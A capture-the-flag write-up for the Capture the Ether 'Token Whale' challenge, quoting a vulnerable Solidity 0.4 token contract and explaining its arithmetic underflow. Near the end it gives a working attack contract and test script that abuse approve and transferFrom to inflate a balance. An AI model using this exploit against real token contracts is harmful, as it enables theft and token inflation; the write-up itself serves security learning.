 # Catch the Ether 9: Token Whale

Another arithmetic over/underflow ;-) oh, boy. Glad this was fixed in 0.8

## The Task Intro

This ERC20-compatible token is hard to acquire. There’s a fixed supply of 1,000 tokens, all of which are yours to start with. Find a way to accumulate at least 1,000,000 tokens to solve this challenge.

## The Task Code

```apache
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1_000_000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        //write balances to state
        balanceOf[msg.sender] -= value; //******************* attack with 1001, and we have an underflow
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        //check balance of caller/sender is greater than value
        require(balanceOf[msg.sender] >= value);

        //check balance of receiver grater than current before <- no negative values.
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        //no check!!!!!
        allowance[msg.sender][spender] = value; //****************************************** attack
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value); //************** <- why not from???? very weired, transferFrom will not work.
    }
}

```

## The Solution

I started studying the TokenWhaleChallenge - the checks with transferFrom and transfer looked good, they cannot get overflowed. As well I was not able to change the balanceOf value itself from an attacking contract or direct caller. Suspicious where three things:

1. \_transfer first line substracting the value from balanceOf[msg.sender]
2. approve: no checks are made, I can approve any value
3. transferFrom call to \_transfer(to, value) -> where is the from going? see 1.

I knew the attack needs to be arranged with these elements. I was playing the attack only with the player account and did not succeed. After a research it was clear the attack needs to be done with the smart contract address calling transferFrom with an approval and the from the player and to a thrid party account.

This call substracts in the \_transfer function the value from the sender, causing an underflow.

HEY, and this is the end with capture the ether inside the security week!

🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️🎉️

```apache
describe('Deployment', function () {
    it('Token Whale', async function () {
      const { crack, tokenWhale, owner, otherAccount } = await loadFixture(deployReentrencyFixture);

      //player approves contract to spend 100 Tokens
      await tokenWhale.approve(crack.address, 100);

      //attack contract sends 100 tokens from from owner with aproval to a third account
      //and then transfer 1 Mio token back
      await crack.attack(owner.address, otherAccount.address);

      //we generated insanely a lot of tokens due to a underflow
      const balance = await tokenWhale.balanceOf(owner.address);
      console.log(balance);
      expect(balance).to.be.equal(1001000);
      console.log('Attack made successfully');

      //check contract is completed
      expect(await tokenWhale.isComplete()).to.be.true;
      console.log('Contract is complete');
    });
  });
```

The contract:

```apache
contract Crack {
    TokenWhaleChallenge twc;
    address player;

    function Crack(TokenWhaleChallenge _twc, address _player) public payable {
        twc = _twc;
        player = _player;
    }

    function attack(address from, address to) external {
        //1. player called allowance on his token <-- happens on javascript side
        //-> client side

        //2. Contract calls transferFrom from player to another address generate overflow
        twc.transferFrom(from, to, 100);

        //3. Transfer 1_000_000 to player
        twc.transfer(player, 1000000);
    }

    function() public payable {}
}
```

a
